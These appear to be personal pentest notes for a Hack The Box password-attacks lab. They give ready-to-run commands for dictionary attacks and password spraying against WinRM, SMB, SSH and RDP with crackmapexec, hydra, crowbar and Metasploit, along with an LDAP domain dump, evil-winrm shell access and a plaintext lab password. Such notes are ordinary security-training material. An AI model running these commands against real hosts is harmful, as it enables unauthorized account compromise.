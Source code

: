 #auth 

https://academy.hackthebox.com/storage/resources/Password-Attacks.zip

##### [[la1n-notes/services/SMB/SMB|SMB]], [[LDAP]], [[mssql]], etc.
https://github.com/byt3bl33d3r/CrackMapExec
#CrackMapExec 
```shell
sudo apt-get -y install crackmapexec

# Dictionary-attack / Password-Spraying
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

```shell
crackmapexec --verbose smb 10.129.42.197 -u "user" -p "password" --shares
```
#### [[la1n-notes/services/SMB/SMB|SMB]] enumeration
list shares
```bash
netexec smb 10.129.128.107  -u michael.wrightson -p Cicada$M6Corpb*@Lp#nZpsmbmap -H 10.129.128.107 --shares
```
#### #ldap 
Dump everything (domains/users/etc)
```bash
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.129.128.107 -o dump
```

#### #evil-winrm 
#shell [[bind shell]]
to log in and get the shell:
```bash
sudo gem install evil-winrm
evil-winrm -i 10.129.42.197 -u user -p password
```

[[hydra]]
```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list rdp://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list smb://10.129.42.197
```

```bash
hydra -L user.list -P password.list 10.129.42.197 smb
```

```bash
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Dictionary attack on [[SMB]] use [[metasploit]]
```shell
msfconsole -q
use auxiliary/scanner/smb/smb_login
set PASS_FILE password.list

set SMB_USER jason
set USER_FILE username.list

set stop_on_success true
set RHOST STMIP
run
```

### [[RDP]] Password Spraying
https://github.com/galkan/crowbar
Installation:
```bash
sudo apt install -y crowbar
# or
git clone https://github.com/galkan/crowbar
cd crowbar/
pip3 install -r requirements.txt
```

```bash
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

